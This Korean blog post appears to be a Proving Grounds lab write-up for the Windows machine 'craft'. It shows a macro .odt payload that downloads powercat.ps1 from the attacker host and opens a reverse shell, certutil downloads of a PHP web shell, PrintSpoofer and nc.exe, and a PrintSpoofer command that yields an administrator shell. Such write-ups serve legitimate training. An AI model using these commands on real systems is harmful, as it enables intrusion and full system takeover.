








---
layout: post
title:  "[PG][Windows] craft"
date:   2026-11-08 12:15:00 +09:00
featured: /assets/images/oscp-pg/windows/craft/image.png
categories: PG Windows
---## 정보 수집
namp을 통해 포트 스캔 시 80포트 오픈되어있었음.
```
nmap 192.168.220.65 -Pn -n --min-rate 3000 --open -oN scan
```

80 포트에 접근하면 파일 업로드 기능이있으며, 해당 업로드는 odt파일만 업로드가 가능했음.



## 초기 침투
google 검색 결과 mmg-lo라는 메크로 odt파일을 제작 가능한 python파일 발견.


페이로드를 공격자 pc로부터 powercat.ps1를 다운로드 받은 뒤, 리버스쉘 명령하는 페이로드로 수정.
그 후 들여쓰기를 맞추기위해 expand를 사용.
```
build_payload = (f'IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.49.114/powercat.ps1");powercat -c {ip} -p {port} -e powershell')
expand -t 4 mmg-odt.py >> test.py
```

test.py를 실행하명 file.odt파일이 생성됨.
```
python test.py windows 192.168.49.114 9988
[+] Payload: windows reverse shell
[+] Creating malicious .odt file

Done.
```

메크로 odt파일을 업로드하면 화면 문구가 변경된 것을 확인.


몇 분이 지나면 netcat을 통해 리버스쉘이 확인됨.


## 권한 상승
winPEASany.exe를 사용하여 취약점 확인 시 계정이 apache 계정이 있는 것을 확인함.

```

web 디렉토리에 읽기 쓰기가 가능하여, 공격자 pc로 부터 리버스쉘 php파일을 다운로드
PS C:\xampp\htdocs> certutil -urlcache -split -f http://192.168.49.114/shell.php shell.php
certutil -urlcache -split -f http://192.168.49.114/shell.php shell.php
****  Online  ****
  0000  ...
  0561
CertUtil: -URLCache command completed successfully.
```
하기 url에 접근하면 netcat으로 열어둔 리스너에 apache 리버스쉘이 확인됨.
[http://192.168.220.65/shell.php]


apache 계정으로는 SeImpersonatePrivilege 권한이 존재했음.
```
PS C:\xampp\htdocs> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

SeImpersonatePrivilege 취약점을 이용해 PrintSpoofer 툴을 이용해 공격자 pc로 리버스쉘 전송.
```
PS C:\Users\apache\Desktop> certutil -urlcache -split -f http://192.168.49.114/PrintSpoofer.exe PrintSpoofer.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
PS C:\Users\apache\Desktop> certutil -urlcache -split -f http://192.168.49.114/nc.exe nc.exe
****  Online  ****
  0000  ...
  e800
CertUtil: -URLCache command completed successfully.
PS C:\Users\apache\Desktop> .\PrintSpoofer.exe -c "C:\Users\apache\Desktop\nc.exe 192.168.49.114 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

그 후 netcat에 관리자 계정이 확인됨.

